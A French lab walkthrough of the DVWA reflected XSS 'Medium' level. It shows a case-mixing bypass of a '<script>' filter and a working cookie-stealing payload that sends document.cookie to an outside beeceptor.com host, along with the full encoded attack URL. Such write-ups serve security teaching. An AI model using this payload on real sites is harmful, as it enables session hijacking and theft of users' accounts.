 # Niveau "Medium"

Sur ce nouveau challenge, la saisie utilisateur est réfléchie de la même manière que précédemment :

![](../../../../.gitbook/assets/ba932021e36277aa4cd825067d134838.png)

Je tente à nouveau de faire apparaître une `alert()` box :

![](../../../../.gitbook/assets/ed404ff1dd1f19a6d6b9943479e30a3d.png)

Les balises `<script>` et `</script>` semblent avoir été filtrées. Dans un premier temps, je teste des contournement simples :

![](../../../../.gitbook/assets/f6cf1af8363bd55fadfcf520ff55cc37.png)

Un mélange de minuscules/majuscules permet de contourner ce filtre. Une autre possibilité est de considérer que le filtre n'est sans doute pas récursif :

![](../../../../.gitbook/assets/106003e1f46f52ad2e1386f7ceb92745.png)

{% hint style="info" %}
Seul l'occurrence `<script>` est filtrée, aucune modification ne semble être effectuée sur l'occurrence `</script>`
{% endhint %}

La payload malicieuse de vol de cookie n'est donc que légèrement modifiée pour ce niveau :

```javascript
<sCriPt>document.write('<img src="https://dvwaxssrefl.free.beeceptor.com?cookie=' + document.cookie + '" />')</script>
```

![](../../../../.gitbook/assets/16f6d68c0203b9d54e7cae65693297f8.png)

Soit l'URL :

```http
http://192.168.56.203:8080/vulnerabilities/xss_r/?name=%3CsCriPt%3Edocument.write%28%27%3Cimg+src%3D%22https%3A%2F%2Fdvwaxssrefl.free.beeceptor.com%3Fcookie%3D%27+%2B+document.cookie+%2B+%27%22+%2F%3E%27%29%3C%2Fscript%3E#
```

Lorsque la victime visitera note lien, ses cookies seront envoyés sur notre serveur malicieux :

![](../../../../.gitbook/assets/abcaf86471b00b078e755197a1f46d7b.png)
